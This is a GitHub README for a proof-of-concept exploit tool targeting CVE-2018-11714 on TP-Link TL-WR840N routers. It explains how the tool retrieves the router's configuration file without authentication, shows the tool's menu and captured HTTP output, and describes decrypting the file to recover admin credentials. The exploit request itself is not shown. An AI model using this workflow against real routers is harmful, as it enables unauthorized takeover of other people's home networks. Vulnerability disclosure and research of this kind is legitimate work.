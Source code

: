 <img src="img/warning.png" align="right" width="180" height="271" />

# TPLINK TL-WR840N Exploit ![](https://img.shields.io/static/v1?label=CVE%20SCORE&message=10.0&color=red)

This is Proof Of Concept based on CVE-2018-11714 which was found by *Touhid Shaikh*. This Issue is caused by broken session handling on firmware /cgi/ directory. That allow us to download the configuration file and gain access to admin configuration panel.

This issue affect firmware **0.9.1 3.16 v0001.0 Build 170608 Rel.58696n**. And it hasn't been repaired until this time **(0.9.1 4.16 v0001.0 Build 180614 Rel.40494n)**
So, I would like to ask all of you for help to contact the vendor to report this issue so they can fix it as soon as possible.

## CVE Source 
https://blog.securelayer7.net/time-to-disable-tp-link-home-wifi-router/

## Requierments
- curl, bash, dd, openssl, net-tools.

### Linux(Debian, Ubuntu, Kali, etc.)

```
sudo apt-get install curl dd openssl net-tools -y
```
## How to Use
to execute this, make sure you have cloned this repository according to the operating system you are using. is you use linux Use the ./setup script in /src/linux dir. otherwise, if you are using the windows operating system. you can do the same.
```
theace1@linux:~./setup
-----------------------------------------
-   TPLINK TL-WR840N Proof Of Concept   -
-       Based on CVE-2018-11714         -
-         Do at your own risk!          -
-----------------------------------------

[ 1 ] Manual
[ 2 ] Automatic Gateway Finder
[ 3 ] Decrypt Config File
[ x ] Exit

theace1>1
```
### Automatic IP Finder
Or if you have trouble finding the gateway, then you can use automatic mode, so the ip will be filled in automatically.
```
theace1@linux:~./setup -a
-----------------------------------------
-   TPLINK TL-WR840N Proof Of Concept   -
-       Based on CVE-2018-11714         -
-         Do at your own risk!          -
-----------------------------------------

[ 1 ] Manual
[ 2 ] Automatic Gateway Finder
[ 3 ] Decrypt Config File
[ x ] Exit

theace1>2

```

If you have done this, then you will get a encrypted router configuration code that is saved to the conf.bin. the file is saved in the same directory with the setup file. Here is the code that gets from the exploit :
```                                                                                    
HTTP/1.1 200 OK
Content-Type: application/octet-stream; charset=utf-8
Content-Length: 6256
Connection: keep-alive

+�ä�4�f�f1�^?O�vt�^GY&,���h[ڋ�lـ��.�-^Z&�d�DT^]���^Ry�^Tj�3R7B^U�5#B5m�)�=Q���\�^P�-���ĝ
+�^A^W�h�Y��ݠ��%^G����^C���^K�0&r����vj[��x��m�z^R����}֩j0���3��^Q�͎�|�^T}]^A$霤^A��#^T^Z
��^O4���^W��n��l�^X�^S�j�Z��^S^X�;>�^���<^\��L������ԧ𧣩�����^S��|��

```

## How to Decrypt
To decrypt this file easily, you can use a free software provided by [Nirsoft](https://www.nirsoft.net/utils/router_password_recovery.html) called Routerpassview. this is the problem, if you don't use the windows operating system then you can use virtual [ReactOS](https://github.com/reactos/reactos) (virtualbox, vmware, etc.) and run the routerpassview software on the virtual os. So if you are already united with your unix operating system, i was included automatic file decryption in the software based on dd and openssl.

```
-----------------------------------------
-   TPLINK TL-WR840N Proof Of Concept   -
-       Based on CVE-2018-11714         -
-         Do at your own risk!          -
-----------------------------------------

[ 1 ] Manual
[ 2 ] Automatic Gateway Finder
[ 3 ] Decrypt Config File
[ x ] Exit

dvuser>3 

Enter Your Config File Location (Blank for default): conf.bin
Decryption Complete. Now Open tmp.bin file for decrypted file.

```

## Author
thanks to all the friends who helped me complete this code. and thanks CVE Author for discovering this vulnerability.
- Code Author [theace1](https://github.com/theace1) [the4ce1@aol.com](mailto:the4ce.aol.com?subject=Hello%20theace%2C&body=I%20have%20an%20important%20comment%20for%20you) & CVE Author [Touhid Shaikh](https://blog.securelayer7.net/author/touhid/)  

